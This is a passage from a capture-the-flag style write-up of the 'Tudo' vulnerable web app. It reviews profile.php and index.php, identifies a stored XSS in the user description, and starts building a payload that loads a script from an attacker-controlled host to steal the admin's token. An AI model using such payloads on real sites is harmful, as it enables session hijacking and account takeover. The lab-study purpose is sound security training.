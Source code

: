 And here we see that what just happens is that it's sending the values to the database.

We can see the profile.php file too

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:08:30.png)

```php
<?php 
    session_start();
    if (!isset($_SESSION['loggedin']) || !$_SESSION['loggedin'] == true) {
        header('location: /login.php');
        die();
    } 

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        if (!isset($_POST['description'])) {
            $error = true;
        }
        else {
            $description = $_POST['description'];
            
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "updatedescription_query", "update users set description = $1 where username = $2");
            $ret = pg_execute($db, "updatedescription_query", Array($description, $_SESSION['username']));
            $success = true;
        }
    }
?>
```

Ok. Just change the description of the user. But where it's being written?

If we look at index.php we found that it's triggering our user controlled params in html tags

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:22:25.png)

Which means that we can get XSS if someone look at this page! And it's that the admin is doing here

# XSS Admin Token

We mount a simple html file to resume what we are going to do here now

xss.html

```php
<html>
<?php
echo '<td>document.write(''<script src="http://172.17.0.1:8000/XSS_Testing"></script>'');</td>';
?>
</html>
```
